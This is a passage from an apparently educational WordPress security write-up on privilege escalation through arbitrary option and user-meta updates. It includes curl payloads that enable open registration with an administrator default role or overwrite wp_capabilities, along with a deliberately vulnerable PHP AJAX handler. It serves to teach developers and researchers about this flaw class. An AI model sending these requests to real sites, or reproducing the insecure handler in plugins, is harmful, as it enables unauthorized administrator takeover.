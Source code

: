 ```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=update_site_preference -d "key=users_can_register&value=1"
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=update_site_preference -d "key=default_role&value=administrator"
``` 

After that, the user could just simply go to <WORDPRESS_BASE_URL>/wp-login.php?action=register and register an account with an administrator role.

Below are some of the findings related to Arbitrary Option Update:

- [Multiple Vulnerabilities Patched in Themify Ultra Theme](https://patchstack.com/articles/multiple-vulnerabilities-patched-in-themify-ultra-theme/#authenticated-arbitrary-settings-change)


## Arbitrary User Meta Update

According to [official documentation](https://developer.wordpress.org/plugins/users/working-with-user-metadata/), the WordPress `users` table was designed to contain only the essential information about the user. Because of this, to store additional data, the `usermeta` table was introduced, which can store any arbitrary amount of data about a user.

WordPress stores each of the user role data inside of the `usermeta` table with the key `wp_capabilities`. The value inside of this meta is an array value which is stored as a serialized object. Example of value inside of this meta key:

```
a:1:{s:10:"subscriber";b:1;}
```

To update the user's meta, the [`update_user_meta`](https://developer.wordpress.org/reference/functions/update_user_meta/) function is used. If a user can fully control the `$meta_key` and the `$meta_value` parameters, they can achieve a privilege escalation by either updating their account if the `$user_id` parameter can't be controlled or any account if the user can control the `$user_id` parameter.

Example of vulnerable code:

```php
add_action("wp_ajax_change_user_bio", "change_user_bio");

function change_user_bio(){
    $user_id = get_current_user_id();
    $bio_key = $_POST["key"];
    $bio_value = $_POST["value"];

    update_user_meta($user_id, $bio_key, $bio_value);
    echo "bio updated";
}
```

To exploit this, any authenticated user just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `update_user_meta` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=change_user_bio -d "key=wp_capabilities&value[administrator]=1" -H 'Cookie: <AUTHENTICATED_USER_COOKIE>'
``` 
